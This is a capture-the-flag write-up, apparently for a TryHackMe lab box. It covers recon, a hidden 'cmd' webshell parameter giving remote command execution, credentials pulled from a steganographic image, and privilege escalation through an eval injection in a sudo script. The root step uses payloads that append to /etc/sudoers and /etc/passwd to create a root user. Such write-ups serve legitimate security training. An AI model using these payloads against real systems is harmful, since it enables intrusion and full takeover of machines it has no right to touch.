









## TL;DR

In this challenge, we first find hidden endpoint and realize it uses `cmd` url parameter for `RCE`.

Then, we find `deku` credentials inside corrupted image, encrypted with `passphrase` hiding somewhere else on the system.

Lastly, we move to root using `OS Command Injection` found on script we can execute as root using sudo.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                   
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)                             
| ssh-hostkey:                                                                                                                
|   3072 b7:0f:b1:bf:ee:4a:de:37:3c:ad:a9:ca:9c:26:54:63 (RSA)                                                                
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCzoYJLz9dMZLrTwFcKL/42LsdKyB/6I2SolvpENS4tYTg7izs38POT0Hr7oNug8xO1R0KUG2804xEaB+5O7aNj
T546xkYhj92TS5/kzm9XwS0SWpDBEn7aDxvTQLigK0a0vW++oyQoquAJ+8FxYRmvLOaA1y+JkNGRqGnZjk0rMID2wW9SrhcK9ta7QqrlrttFvMXJMUhQrmK9x/0HWF
4EuARK/RuZs0IYBh2s8lIkLlBRis7w/j56/ySyX+JtHlXpRAU+RLqyNSnUYlYf/DQms9wst7rbehehmdRH0pQxWJrVaasS7L3zt2UsqSlbX9+WKIm1j278Rayw3snU
NHjwwt6lR5HIHRcmk61yV+L2NirRpqPF/jVTKI5KLGPnCLqgSpXsPuHZqOGH1UR+qm4OLaHm5t+QcQQytE1UldaQhPicKDEu7lWl65d/kVpdlh1wzFRX+CNIKYt/qv
G8gLnoFGvxtkQObRqUK0gYSLSnZJ5uQb50kZbMc3Gwj1lLA58=                                                                            
|   256 e6:3e:60:1d:f9:fb:1a:0a:1c:01:37:d4:7f:1e:b9:41 (ECDSA)                                                               
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD5YHumIj/tZQU5Qs5j7giCd3ocSQdTqoLq5fE0YMgqOjmz/kmSucd9g7LwE9LEqglSXoiqwX3kttAdZlkG2XlM=
|   256 f2:ef:ed:88:64:f4:22:f1:43:a4:c5:6c:b5:ad:6f:b0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJXWelpVf6/SX3CLNcwUXHJoVUFdX4dmWWdE/LpbQ1Hy
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: U.A. High School
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `uahighschool.thm` to my `/etc/hosts`.

### Find hidden endpoint with hidden cmd param for RCE

I visit the website and moved around, nothing looks too interesting:


So, I fuzzed and found 2 endpoints:
```bash
┌──(agonen㉿kali)-[~/thm/UAHighSchool]
└─$ ffuf -u 'http://uahighschool.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://uahighschool.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

assets                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 164ms]
index.html              [Status: 200, Size: 1988, Words: 171, Lines: 62, Duration: 154ms]
```

I went to `assets`, and got blank page. 

Strange, maybe this is executing some `php` code behind the scenes. We can verify it by going to `/assets/index.php`, and see we get the same result.



Since I know i need to search for something like command execution, and I'm familiar with such challenges, I started fuzzing for url parameters with the payload `id`.
```bash
┌──(agonen㉿kali)-[~/thm/UAHighSchool]
└─$ ffuf -u 'http://uahighschool.thm/assets/index.php?FUZZ=id' -w /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt -fs 0 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://uahighschool.thm/assets/index.php?FUZZ=id
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

cmd                     [Status: 200, Size: 72, Words: 1, Lines: 1, Duration: 153ms]
:: Progress: [6453/6453] :: Job [1/1] :: 263 req/sec :: Duration: [0:00:26] :: Errors: 0 ::
```

We find the url param `cmd`, let's check this on the browser:
```bash
http://uahighschool.thm/assets/index.php?cmd=id
```



After base64 decoding, we get what we want. This was `RCE`.
```bash
┌──(agonen㉿kali)-[~/thm/UAHighSchool]
└─$ echo -e 'dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK' | base64 -d
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now, let's give this webshell our penelope payload:



### Find deku credentials inside corrupted image encrypted with passphrase found inside Hidden_content 

Inside `/var/www/Hidden_Content` we can find some `passphrase.txt` file that contains base64 string. I decoded it:
```bash
www-data@ip-10-67-173-212:/var/www/Hidden_Content$ cat passphrase.txt | base64 -d 
AllmightForEver!!!
```

Okay, next, on `/var/www/html/assets/images` we can find an image that we havn't saw before, let's download it to our machine and analyze it.
```bash
www-data@ip-10-67-173-212:/var/www/html/assets/images$ ls
oneforall.jpg  yuei.jpg
```

I tried to open it, it didn't work. The reason is that it is corrupted:
```bash
┌──(agonen㉿kali)-[~/thm/UAHighSchool]
└─$ file oneforall.jpg                                                                                    
oneforall.jpg: data
                                                                                                                                                 
┌──(agonen㉿kali)-[~/thm/UAHighSchool]
└─$ xxd oneforall.jpg | head -n1
00000000: 8950 4e47 0d0a 1a0a 0000 0001 0100 0001  .PNG............
```

As you can see, this is `.jpg` extension with header of PNG. Let's change it to header of JPG. I will download the other file `yuei.jpg`, and check its header:
```bash
┌──(agonen㉿kali)-[~/thm/UAHighSchool]
└─$ xxd -g16 yuei.jpg  | head -n1
00000000: ffd8ffe000104a464946000101010048  ......JFIF.....H
```

Let's copy the first line (use `-g16` because need to paste it without spaces)

Now, we'll use `hexedit`:
```bash
hexedit oneforall.jpg
```



Just paste the new header, and then *Ctrl+x* -> *Yes*.
You can see it worked:
```bash
┌──(agonen㉿kali)-[~/thm/UAHighSchool]
└─$ file oneforall.jpg 
oneforall.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 72x1, segment length 16, baseline, precision 8, 1140x570, components 3
```

and the new image:


Now, we can use `steghide` and extract the data with the password `AllmightForEver!!!` we found before:
```bash
┌──(agonen㉿kali)-[~/thm/UAHighSchool]
└─$ steghide extract -sf oneforall.jpg -p 'AllmightForEver!!!'
wrote extracted data to "creds.txt".
```

we got some credentials:
```bash
┌──(agonen㉿kali)-[~/thm/UAHighSchool]
└─$ cat creds.txt                                           
Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:

deku:One?For?All_!!one1/A
```

and login via ssh:
```bash
ssh deku@uahighschool.thm # One?For?All_!!one1/A
```



the user flag
```bash
deku@ip-10-67-173-212:~$ cat user.txt 
THM{W3lC0m3_D3kU_1A_0n3f0rAll??}
```

### Privilege Escalation to Root using OS Command Injection on script

I checked for sudo permissions:
```bash
deku@ip-10-67-173-212:/home$ sudo -l
Matching Defaults entries for deku on ip-10-67-173-212:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on ip-10-67-173-212:
    (ALL) /opt/NewComponent/feedback.sh
```

and this is the script:
```bash
deku@ip-10-67-173-212:/home$ cat /opt/NewComponent/feedback.sh
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi
```

We can see it uses the function `eval` on payload we insert, however, it filter for multiple characters.
Luckily, it doesn't filter for the char `>`, so we can use it to give some payload that writes to file.

The payload is:
```bash
hello world >> /tmp/test.txt
```

We can see the new file `/tmp/test.txt` created as root:
```bash
deku@ip-10-67-173-212:/tmp$ ls -la /tmp/test.txt 
-rw-r--r-- 1 root root 12 Jan 27 17:08 /tmp/test.txt
deku@ip-10-67-173-212:/tmp$ cat /tmp/test.txt 
hello world
```



Now, we can overwrite any file we wants. I want to add sudo permissions to the `/etc/sudoers` file, and then we have permissions for everything.

This is the line we wants to add:
```bash
deku ALL=(ALL) NOPASSWD: ALL
```

and the full payload:
```bash
deku ALL=(ALL) NOPASSWD: ALL >> /etc/sudoers
```
Other methods might be adding new root user to `/etc/passwd`, or add public key to `/root/.ssh/authorized_keys`, which I've already done at the past, you're welcome to check how.

Okay, for some reason the script blocks me, so we'll use the `/etc/passwd` method.
First, generate `elicopter`'s password, which is `elicopter`
```bash
┌──(agonen㉿kali)-[~/thm/UAHighSchool]
└─$ openssl passwd elicopter
$1$DFpIDpyu$McTIudX.oBw275eMq57OK1
```

Next, create the full line, based on root line from `/etc/passwd`.
This is regular line
```bash
root:x:0:0:root:/root:/bin/bash
```

So, our new line will be:
```bash
elicopter:$1$YdZ9Ip7Z$F0MR/NO9OfQUqQXLATeo//:0:0:elicopter:/root:/bin/bash
```

Now, the full payload will be:
```bash
elicopter:$1$YdZ9Ip7Z$F0MR/NO9OfQUqQXLATeo//:0:0:elicopter:/root:/bin/bash >> /etc/passwd
```



We can verify it:
```bash
deku@ip-10-67-173-212:/tmp$ tail /etc/passwd -n 2
ubuntu:x:1001:1002:Ubuntu:/home/ubuntu:/bin/bash
elicopter:/NO9OfQUqQXLATeo//:0:0:elicopter:/root:/bin/bash
```

Okay, let's `su` to `elicopter` with the password `elicopter`.
Oh, this was broken becuase of the `$` :( 

We need to create new user, and this time use `'` in the payload inserting.
So, create user `elicopter2` with the password `elicopter`, same as before (I won't paste everything).
The full payload:
```bash
'elicopter2:$1$YdZ9Ip7Z$F0MR/NO9OfQUqQXLATeo//:0:0:elicopter2:/root:/bin/bash' >> /etc/passwd
```



we manage to create the user and `su` to him. Now, the root flag:
```bash
root@myheroacademia:/opt/NewComponent# cat /root/root.txt
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                  _    _ 
             _   _        ___    | |  | |
            | \ | | ___  /   |   | |__| | ___ _ __  ___
            |  \| |/ _ \/_/| |   |  __  |/ _ \ '__|/ _ \
            | |\  | (_)  __| |_  | |  | |  __/ |  | (_) |
            |_| \_|\___/|______| |_|  |_|\___|_|   \___/ 

THM{Y0U_4r3_7h3_NUm83r_1_H3r0}
```